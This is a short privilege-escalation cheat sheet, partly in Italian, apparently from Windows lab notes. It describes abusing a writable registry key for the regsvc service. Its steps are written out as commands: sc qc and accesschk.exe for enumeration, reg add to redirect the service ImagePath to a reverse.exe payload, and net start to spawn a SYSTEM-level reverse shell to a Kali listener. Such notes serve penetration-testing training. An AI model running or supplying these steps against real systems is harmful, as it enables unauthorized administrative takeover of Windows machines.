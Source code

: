 ### **ENUMERATION**

Trova un servizio che runni con i privilegi di sistema (SERVICE_START_NAME)
```POWERSHELL
sc qc <servizio>
```
### **EXPLOITATION**

Using accesschk.exe, note that the registry entry for the regsvc service is writable by the "NT AUTHORITY\INTERACTIVE" group (essentially all logged-on users):
```POWERSHELL
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```
Overwrite the ImagePath registry key to point to the reverse.exe executable you created:
```POWERSHELL
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```
Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:
```POWERSHELL
net start regsvc
```
